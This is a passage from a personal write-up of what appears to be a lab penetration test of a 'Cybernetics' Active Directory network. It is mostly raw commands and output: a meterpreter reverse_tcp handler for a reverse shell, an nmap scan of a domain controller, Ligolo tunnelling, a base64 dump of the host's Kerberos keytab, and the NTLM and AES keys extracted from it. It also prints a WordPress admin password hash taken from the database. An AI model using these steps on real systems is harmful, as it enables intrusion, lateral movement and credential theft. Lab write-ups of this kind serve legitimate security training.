ΓòöΓòÉΓòÉΓòÉΓòÉΓòÉΓòÉΓòÉΓòÉΓòÉΓòÉΓòú Interesting GROUP writable files (not in Home) (max 500)
ΓòÜ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files
  Group www-data:
/etc/krb5.keytab
```

But then I had some issues so i decided to upgrade to the metepreter and gain a better revshell!

```
msf6 exploit(multi/handler) > show options 

Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting            Required  Description
   ----   ---------------            --------  -----------
   LHOST  fe80::5149:f84b:fa78:38c8  yes       The listen address (an interface may be specified)
   LPORT  4321                       yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


View the full module info with the info, or info -d command.
```



Now looking on the /etc/hosts file we can see traces of 2 other DC one on **core.cyber.local(10.9.15.10)** and the other at **cyber.local(10.9.10.10)**.

```
www-data@corewebdl:/$ cat /etc/hosts
cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 corewebdl.core.cyber.local corewebdl ubuntu
# The following lines are desirable for IPv6 capable hosts
::1 localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
www-data@corewebdl:/$ ping -c 2 cyber.local
ping -c 2 cyber.local
PING cyber.local (10.9.10.10) 56(84) bytes of data.
64 bytes from 10.9.10.10 (10.9.10.10): icmp_seq=1 ttl=127 time=0.421 ms
64 bytes from 10.9.10.10 (10.9.10.10): icmp_seq=2 ttl=127 time=0.569 ms

--- cyber.local ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1001ms
rtt min/avg/max/mdev = 0.421/0.495/0.569/0.074 ms
www-data@corewebdl:/$ 

www-data@corewebdl:/$ ping -c 2 core.cyber.local
ping -c 2 core.cyber.local
PING core.cyber.local (10.9.15.10) 56(84) bytes of data.
64 bytes from 10.9.15.10 (10.9.15.10): icmp_seq=1 ttl=128 time=0.313 ms
64 bytes from 10.9.15.10 (10.9.15.10): icmp_seq=2 ttl=128 time=0.421 ms

--- core.cyber.local ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1002ms
rtt min/avg/max/mdev = 0.313/0.367/0.421/0.054 ms
www-data@corewebdl:/$
```

Now I will upload a static nmap binary(will not be able to perform a script scan but that is enoght) to see what ports are available on those hosts?

```
meterpreter > upload nmap
[*] Uploading  : /home/millycash/Downloads/Cybernetics/www/nmap -> nmap
[*] Uploaded -1.00 B of 5.67 MiB (0.0%): /home/millycash/Downloads/Cybernetics/www/nmap -> nmap
[*] Completed  : /home/millycash/Downloads/Cybernetics/www/nmap -> nmap
meterpreter > she
```

And now we can see more of the core.cyber.local:

```
www-data@corewebdl:/tmp$ ./nmap -F 10.9.15.10
./nmap -F 10.9.15.10

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2024-06-14 08:30 EST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 10.9.15.10
Host is up (0.00025s latency).
Not shown: 237 closed ports
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos
135/tcp  open  epmap
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd
636/tcp  open  ldaps
3389/tcp open  ms-wbt-server
```

Lastly i managed to connect back to Ligolo as well, my agent was corrupted for some reasons, but now it works:  




And as you see now I have all my routes in place:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads]
└─# route
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
default         router.lan      0.0.0.0         UG    600    0        0 wlan0
10.9.10.0       0.0.0.0         255.255.255.0   U     0      0        0 ligolo2
10.9.15.0       0.0.0.0         255.255.255.0   U     0      0        0 ligolo2
10.9.20.0       0.0.0.0         255.255.255.0   U     0      0        0 ligolo
10.10.14.0      0.0.0.0         255.255.254.0   U     50     0        0 tun0
10.10.110.0     10.10.14.1      255.255.255.0   UG    50     0        0 tun0
154.57.165.175  router.lan      255.255.255.255 UGH   50     0        0 wlan0
172.17.0.0      0.0.0.0         255.255.0.0     U     0      0        0 docker0
192.168.0.0     0.0.0.0         255.255.0.0     U     600    0        0 wlan0
router.lan      0.0.0.0         255.255.255.255 UH    50     0        0 wlan0
240.0.0.1       0.0.0.0         255.255.255.255 UH    0      0        0 ligolo
```

&nbsp;

# Missing steps

Now before moving on I heard I need to find some credentials, and I can do it i guess from linux?

Reference on how to reuse the keytab: https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-active-directory#ccache-ticket-reuse-from-keytab

```
www-data@corewebdl:/etc$

www-data@corewebdl:/etc$ ping -c 2 coredc.core.cyber.local
ping -c 2 coredc.core.cyber.local
PING coredc.core.cyber.local (10.9.15.10) 56(84) bytes of data.
64 bytes from 10.9.15.10 (10.9.15.10): icmp_seq=1 ttl=128 time=0.243 ms
64 bytes from 10.9.15.10 (10.9.15.10): icmp_seq=2 ttl=128 time=0.400 ms

--- coredc.core.cyber.local ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1001ms
rtt min/avg/max/mdev = 0.243/0.321/0.400/0.078 ms
www-data@corewebdl:/etc$
```

As you see I can talk to the machine I i think there is some kind of kerneros ticket? Let's export the/etc/krb5.keytab:

```
cat /etc/krb5.keytab | base64 -w0
BQIAAABNAAEAEENPUkUuQ1lCRVIuTE9DQUwACkNPUkVXRUJETCQAAAABXhHmhgIAEgAg5VYjaRwOa5qoM94QjDgiYvavkM137O5f9/hj1eZAUHgAAAA9AAEAEENPUkUuQ1lCRVIuTE9DQUwACkNPUkVXRUJETCQAAAABXhHmhgIAEQAQUg8RcV7rdv2cvIsOCOOH4QAAAD0AAQAQQ09SRS5DWUJFUi5MT0NBTAAKQ09SRVdFQkRMJAAAAAFeEeaGAgAXABBBgoFs1CvbbSD3+4lwP1xIAAAANQABABBDT1JFLkNZQkVSLkxPQ0FMAApDT1JFV0VCREwkAAAAAV4R5oYCAAMACIrB5t+uQO/4AAAANQABABBDT1JFLkNZQkVSLkxPQ0FMAApDT1JFV0VCREwkAAAAAV4R5oYCAAEACIrB5t+uQO/4AAAAUgACABBDT1JFLkNZQkVSLkxPQ0FMAARob3N0AAlDT1JFV0VCREwAAAABXhHmhgIAEgAg5VYjaRwOa5qoM94QjDgiYvavkM137O5f9/hj1eZAUHgAAABCAAIAEENPUkUuQ1lCRVIuTE9DQUwABGhvc3QACUNPUkVXRUJETAAAAAFeEeaGAgARABBSDxFxXut2/Zy8iw4I44fhAAAAQgACABBDT1JFLkNZQkVSLkxPQ0FMAARob3N0AAlDT1JFV0VCREwAAAABXhHmhgIAFwAQQYKBbNQr220g9/uJcD9cSAAAADoAAgAQQ09SRS5DWUJFUi5MT0NBTAAEaG9zdAAJQ09SRVdFQkRMAAAAAV4R5oYCAAMACIrB5t+uQO/4AAAAOgACABBDT1JFLkNZQkVSLkxPQ0FMAARob3N0AAlDT1JFV0VCREwAAAABXhHmhgIAAQAIisHm365A7/gAAABSAAIAEENPUkUuQ1lCRVIuTE9DQUwABGhvc3QACWNvcmV3ZWJkbAAAAAFeEeaGAgASACDlViNpHA5rmqgz3hCMOCJi9q+QzXfs7l/3+GPV5kBQeAAAAEIAAgAQQ09SRS5DWUJFUi5MT0NBTAAEaG9zdAAJY29yZXdlYmRsAAAAAV4R5oYCABEAEFIPEXFe63b9nLyLDgjjh+EAAABCAAIAEENPUkUuQ1lCRVIuTE9DQUwABGhvc3QACWNvcmV3ZWJkbAAAAAFeEeaGAgAXABBBgoFs1CvbbSD3+4lwP1xIAAAAOgACABBDT1JFLkNZQkVSLkxPQ0FMAARob3N0AAljb3Jld2ViZGwAAAABXhHmhgIAAwAIisHm365A7/gAAAA6AAIAEENPUkUuQ1lCRVIuTE9DQUwABGhvc3QACWNvcmV3ZWJkbAAAAAFeEeaGAgABAAiKwebfrkDv+AAAAGMAAgAQQ09SRS5DWUJFUi5MT0NBTAAEaG9zdAAaQ09SRVdFQkRMLkNPUkUuQ1lCRVIuTE9DQUwAAAABXhHmhgIAEgAg5VYjaRwOa5qoM94QjDgiYvavkM137O5f9/hj1eZAUHgAAABTAAIAEENPUkUuQ1lCRVIuTE9DQUwABGhvc3QAGkNPUkVXRUJETC5DT1JFLkNZQkVSLkxPQ0FMAAAAAV4R5oYCABEAEFIPEXFe63b9nLyLDgjjh+EAAABTAAIAEENPUkUuQ1lCRVIuTE9DQUwABGhvc3QAGkNPUkVXRUJETC5DT1JFLkNZQkVSLkxPQ0FMAAAAAV4R5oYCABcAEEGCgWzUK9ttIPf7iXA/XEgAAABLAAIAEENPUkUuQ1lCRVIuTE9DQUwABGhvc3QAGkNPUkVXRUJETC5DT1JFLkNZQkVSLkxPQ0FMAAAAAV4R5oYCAAMACIrB5t+uQO/4AAAASwACABBDT1JFLkNZQkVSLkxPQ0FMAARob3N0ABpDT1JFV0VCREwuQ09SRS5DWUJFUi5MT0NBTAAAAAFeEeaGAgABAAiKwebfrkDv+AAAAGMAAgAQQ09SRS5DWUJFUi5MT0NBTAAEaG9zdAAaY29yZXdlYmRsLmNvcmUuY3liZXIubG9jYWwAAAABXhHmhgIAEgAg5VYjaRwOa5qoM94QjDgiYvavkM137O5f9/hj1eZAUHgAAABTAAIAEENPUkUuQ1lCRVIuTE9DQUwABGhvc3QAGmNvcmV3ZWJkbC5jb3JlLmN5YmVyLmxvY2FsAAAAAV4R5oYCABEAEFIPEXFe63b9nLyLDgjjh+EAAABTAAIAEENPUkUuQ1lCRVIuTE9DQUwABGhvc3QAGmNvcmV3ZWJkbC5jb3JlLmN5YmVyLmxvY2FsAAAAAV4R5oYCABcAEEGCgWzUK9ttIPf7iXA/XEgAAABLAAIAEENPUkUuQ1lCRVIuTE9DQUwABGhvc3QAGmNvcmV3ZWJkbC5jb3JlLmN5YmVyLmxvY2FsAAAAAV4R5oYCAAMACIrB5t+uQO/4AAAASwACABBDT1JFLkNZQkVSLkxPQ0FMAARob3N0ABpjb3Jld2ViZGwuY29yZS5jeWJlci5sb2NhbAAAAAFeEeaGAgABAAiKwebfrkDv+AAAAGMAAgAQQ09SRS5DWUJFUi5MT0NBTAAEaG9zdAAaQ09SRVdFQkRMLmNvcmUuY3liZXIubG9jYWwAAAABXhHmhgIAEgAg5VYjaRwOa5qoM94QjDgiYvavkM137O5f9/hj1eZAUHgAAABTAAIAEENPUkUuQ1lCRVIuTE9DQUwABGhvc3QAGkNPUkVXRUJETC5jb3JlLmN5YmVyLmxvY2FsAAAAAV4R5oYCABEAEFIPEXFe63b9nLyLDgjjh+EAAABTAAIAEENPUkUuQ1lCRVIuTE9DQUwABGhvc3QAGkNPUkVXRUJETC5jb3JlLmN5YmVyLmxvY2FsAAAAAV4R5oYCABcAEEGCgWzUK9ttIPf7iXA/XEgAAABLAAIAEENPUkUuQ1lCRVIuTE9DQUwABGhvc3QAGkNPUkVXRUJETC5jb3JlLmN5YmVyLmxvY2FsAAAAAV4R5oYCAAMACIrB5t+uQO/4AAAASwACABBDT1JFLkNZQkVSLkxPQ0FMAARob3N0ABpDT1JFV0VCREwuY29yZS5jeWJlci5sb2NhbAAAAAFeEeaGAgABAAiKwebfrkDv+AAAAGMAAgAQQ09SRS5DWUJFUi5MT0NBTAAEaG9zdAAaY29yZXdlYmRsLkNPUkUuQ1lCRVIuTE9DQUwAAAABXhHmhgIAEgAg5VYjaRwOa5qoM94QjDgiYvavkM137O5f9/hj1eZAUHgAAABTAAIAEENPUkUuQ1lCRVIuTE9DQUwABGhvc3QAGmNvcmV3ZWJkbC5DT1JFLkNZQkVSLkxPQ0FMAAAAAV4R5oYCABEAEFIPEXFe63b9nLyLDgjjh+EAAABTAAIAEENPUkUuQ1lCRVIuTE9DQUwABGhvc3QAGmNvcmV3ZWJkbC5DT1JFLkNZQkVSLkxPQ0FMAAAAAV4R5oYCABcAEEGCgWzUK9ttIPf7iXA/XEgAAABLAAIAEENPUkUuQ1lCRVIuTE9DQUwABGhvc3QAGmNvcmV3ZWJkbC5DT1JFLkNZQkVSLkxPQ0FMAAAAAV4R5oYCAAMACIrB5t+uQO/4AAAASwACABBDT1JFLkNZQkVSLkxPQ0FMAARob3N0ABpjb3Jld2ViZGwuQ09SRS5DWUJFUi5MT0NBTAAAAAFeEeaGAgABAAiKwebfrkDv+A==
```

But it's easier from the machine itself:

```
www-data@corewebdl:/tmp$ python2.7 KeytabParser.py /etc/krb5.keytab
python2.7 KeytabParser.py /etc/krb5.keytab
3
1
3
1
3
1
3
1
3
1
3
1
3
1
{
    "COREWEBDL$@CORE.CYBER.LOCAL": {
        "keys": [
            {
                "EncType": "aes256-cts-hmac-sha1-96",
                "Key": "5VYjaRwOa5qoM94QjDgiYvavkM137O5f9/hj1eZAUHg=",
                "KeyLength": 32,
                "Time": "2020-01-05 08:37:10"
            },
            {
                "EncType": "aes128-cts-hmac-sha1-96",
                "Key": "Ug8RcV7rdv2cvIsOCOOH4Q==",
                "KeyLength": 16,
                "Time": "2020-01-05 08:37:10"
            },
            {
                "EncType": "rc4-hmac",
                "Key": "QYKBbNQr220g9/uJcD9cSA==",
                "KeyLength": 16,
                "Time": "2020-01-05 08:37:10"
            }
        ]
    },
    "host/COREWEBDL.CORE.CYBER.LOCAL@CORE.CYBER.LOCAL": {
        "keys": [
            {
                "EncType": "aes256-cts-hmac-sha1-96",
                "Key": "5VYjaRwOa5qoM94QjDgiYvavkM137O5f9/hj1eZAUHg=",
                "KeyLength": 32,
                "Time": "2020-01-05 08:37:10"
            },
            {
                "EncType": "aes128-cts-hmac-sha1-96",
                "Key": "Ug8RcV7rdv2cvIsOCOOH4Q==",
                "KeyLength": 16,
                "Time": "2020-01-05 08:37:10"
            },
            {
                "EncType": "rc4-hmac",
                "Key": "QYKBbNQr220g9/uJcD9cSA==",
                "KeyLength": 16,
                "Time": "2020-01-05 08:37:10"
            }
        ]
    },
    "host/COREWEBDL.core.cyber.local@CORE.CYBER.LOCAL": {
        "keys": [
            {
                "EncType": "aes256-cts-hmac-sha1-96",
                "Key": "5VYjaRwOa5qoM94QjDgiYvavkM137O5f9/hj1eZAUHg=",
                "KeyLength": 32,
                "Time": "2020-01-05 08:37:10"
            },
            {
                "EncType": "aes128-cts-hmac-sha1-96",
                "Key": "Ug8RcV7rdv2cvIsOCOOH4Q==",
                "KeyLength": 16,
                "Time": "2020-01-05 08:37:10"
            },
            {
                "EncType": "rc4-hmac",
                "Key": "QYKBbNQr220g9/uJcD9cSA==",
                "KeyLength": 16,
                "Time": "2020-01-05 08:37:10"
            }
        ]
    },
    "host/COREWEBDL@CORE.CYBER.LOCAL": {
        "keys": [
            {
                "EncType": "aes256-cts-hmac-sha1-96",
                "Key": "5VYjaRwOa5qoM94QjDgiYvavkM137O5f9/hj1eZAUHg=",
                "KeyLength": 32,
                "Time": "2020-01-05 08:37:10"
            },
            {
                "EncType": "aes128-cts-hmac-sha1-96",
                "Key": "Ug8RcV7rdv2cvIsOCOOH4Q==",
                "KeyLength": 16,
                "Time": "2020-01-05 08:37:10"
            },
            {
                "EncType": "rc4-hmac",
                "Key": "QYKBbNQr220g9/uJcD9cSA==",
                "KeyLength": 16,
                "Time": "2020-01-05 08:37:10"
            }
        ]
    },
    "host/corewebdl.CORE.CYBER.LOCAL@CORE.CYBER.LOCAL": {
        "keys": [
            {
                "EncType": "aes256-cts-hmac-sha1-96",
                "Key": "5VYjaRwOa5qoM94QjDgiYvavkM137O5f9/hj1eZAUHg=",
                "KeyLength": 32,
                "Time": "2020-01-05 08:37:10"
            },
            {
                "EncType": "aes128-cts-hmac-sha1-96",
                "Key": "Ug8RcV7rdv2cvIsOCOOH4Q==",
                "KeyLength": 16,
                "Time": "2020-01-05 08:37:10"
            },
            {
                "EncType": "rc4-hmac",
                "Key": "QYKBbNQr220g9/uJcD9cSA==",
                "KeyLength": 16,
                "Time": "2020-01-05 08:37:10"
            }
        ]
    },
    "host/corewebdl.core.cyber.local@CORE.CYBER.LOCAL": {
        "keys": [
            {
                "EncType": "aes256-cts-hmac-sha1-96",
                "Key": "5VYjaRwOa5qoM94QjDgiYvavkM137O5f9/hj1eZAUHg=",
                "KeyLength": 32,
                "Time": "2020-01-05 08:37:10"
            },
            {
                "EncType": "aes128-cts-hmac-sha1-96",
                "Key": "Ug8RcV7rdv2cvIsOCOOH4Q==",
                "KeyLength": 16,
                "Time": "2020-01-05 08:37:10"
            },
            {
                "EncType": "rc4-hmac",
                "Key": "QYKBbNQr220g9/uJcD9cSA==",
                "KeyLength": 16,
                "Time": "2020-01-05 08:37:10"
            }
        ]
    },
    "host/corewebdl@CORE.CYBER.LOCAL": {
        "keys": [
            {
                "EncType": "aes256-cts-hmac-sha1-96",
                "Key": "5VYjaRwOa5qoM94QjDgiYvavkM137O5f9/hj1eZAUHg=",
                "KeyLength": 32,
                "Time": "2020-01-05 08:37:10"
            },
            {
                "EncType": "aes128-cts-hmac-sha1-96",
                "Key": "Ug8RcV7rdv2cvIsOCOOH4Q==",
                "KeyLength": 16,
                "Time": "2020-01-05 08:37:10"
            },
            {
                "EncType": "rc4-hmac",
                "Key": "QYKBbNQr220g9/uJcD9cSA==",
                "KeyLength": 16,
                "Time": "2020-01-05 08:37:10"
            }
        ]
    }
}
www-data@corewebdl:/tmp$
```

```
www-data@corewebdl:/tmp$ klist -k /etc/krb5.keytab
klist -k /etc/krb5.keytab
Keytab name: FILE:/etc/krb5.keytab
KVNO Principal
---- --------------------------------------------------------------------------
   2 COREWEBDL$@CORE.CYBER.LOCAL
   2 COREWEBDL$@CORE.CYBER.LOCAL
   2 COREWEBDL$@CORE.CYBER.LOCAL
   2 COREWEBDL$@CORE.CYBER.LOCAL
   2 COREWEBDL$@CORE.CYBER.LOCAL
   2 host/COREWEBDL@CORE.CYBER.LOCAL
   2 host/COREWEBDL@CORE.CYBER.LOCAL
   2 host/COREWEBDL@CORE.CYBER.LOCAL
   2 host/COREWEBDL@CORE.CYBER.LOCAL
   2 host/COREWEBDL@CORE.CYBER.LOCAL
   2 host/corewebdl@CORE.CYBER.LOCAL
   2 host/corewebdl@CORE.CYBER.LOCAL
   2 host/corewebdl@CORE.CYBER.LOCAL
   2 host/corewebdl@CORE.CYBER.LOCAL
   2 host/corewebdl@CORE.CYBER.LOCAL
   2 host/COREWEBDL.CORE.CYBER.LOCAL@CORE.CYBER.LOCAL
   2 host/COREWEBDL.CORE.CYBER.LOCAL@CORE.CYBER.LOCAL
   2 host/COREWEBDL.CORE.CYBER.LOCAL@CORE.CYBER.LOCAL
   2 host/COREWEBDL.CORE.CYBER.LOCAL@CORE.CYBER.LOCAL
   2 host/COREWEBDL.CORE.CYBER.LOCAL@CORE.CYBER.LOCAL
   2 host/corewebdl.core.cyber.local@CORE.CYBER.LOCAL
   2 host/corewebdl.core.cyber.local@CORE.CYBER.LOCAL
   2 host/corewebdl.core.cyber.local@CORE.CYBER.LOCAL
   2 host/corewebdl.core.cyber.local@CORE.CYBER.LOCAL
   2 host/corewebdl.core.cyber.local@CORE.CYBER.LOCAL
   2 host/COREWEBDL.core.cyber.local@CORE.CYBER.LOCAL
   2 host/COREWEBDL.core.cyber.local@CORE.CYBER.LOCAL
   2 host/COREWEBDL.core.cyber.local@CORE.CYBER.LOCAL
   2 host/COREWEBDL.core.cyber.local@CORE.CYBER.LOCAL
   2 host/COREWEBDL.core.cyber.local@CORE.CYBER.LOCAL
   2 host/corewebdl.CORE.CYBER.LOCAL@CORE.CYBER.LOCAL
   2 host/corewebdl.CORE.CYBER.LOCAL@CORE.CYBER.LOCAL
   2 host/corewebdl.CORE.CYBER.LOCAL@CORE.CYBER.LOCAL
   2 host/corewebdl.CORE.CYBER.LOCAL@CORE.CYBER.LOCAL
   2 host/corewebdl.CORE.CYBER.LOCAL@CORE.CYBER.LOCAL
www-data@corewebdl:/tmp$
```

And I can also export shit out of it:

```
www-data@corewebdl:/tmp$ python3 keytabextract.py /etc/krb5.keytab
python3 keytabextract.py /etc/krb5.keytab
[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : CORE.CYBER.LOCAL
        SERVICE PRINCIPAL : COREWEBDL$/
        NTLM HASH : 4182816cd42bdb6d20f7fb89703f5c48
        AES-256 HASH : e55623691c0e6b9aa833de108c382262f6af90cd77ecee5ff7f863d5e6405078
        AES-128 HASH : 520f11715eeb76fd9cbc8b0e08e387e1
www-data@corewebdl:/tmp$
```

i wonder If i can use this now to surf the AD and  dump the credentials?

https://www.firecompass.com/blog/the-art-of-keytab-files/

But it isn't working so far:

```
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "host/corewebdl.CORE.CYBER.LOCAL@CORE.CYBER.LOCAL"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "host/corewebdl.CORE.CYBER.LOCAL@CORE.CYBER.LOCAL"
.k5login file (users with access to the user who has this file in his home)
administrator@CORE.CYBER.LOCAL
Administrator@CORE.CYBER.LOCAL
tickets kerberos Not Found
klist Not Found



ΓòöΓòÉΓòÉΓòÉΓòÉΓòÉΓòÉΓòÉΓòÉΓòÉΓòÉΓòú Analyzing Keyring F
```

As last resort I will try to crack the admin password and hoping for a password reuse?

```
mysql> select * from wp_users;
select * from wp_users;
+----+------------+------------------------------------+---------------+-------------------------+------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email              | user_url         | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+-------------------------+------------------+---------------------+---------------------+-------------+--------------+
|  1 | admin      | $P$BVWP6bsZcCuy9KDhYNiploNM5K0dDL. | admin         | admin@cybernetics.local | http://localhost | 2024-03-07 11:27:22 |                     |           0 | admin        |
+----+------------+------------------------------------+---------------+-------------------------+------------------+---------------------+---------------------+-------------+--------------+
1 row in set (0.00 sec)

mysql>
```

Fail again!



I think the way in is another :(

Here is done go back to COREDC for followup!

&nbsp;

&nbsp;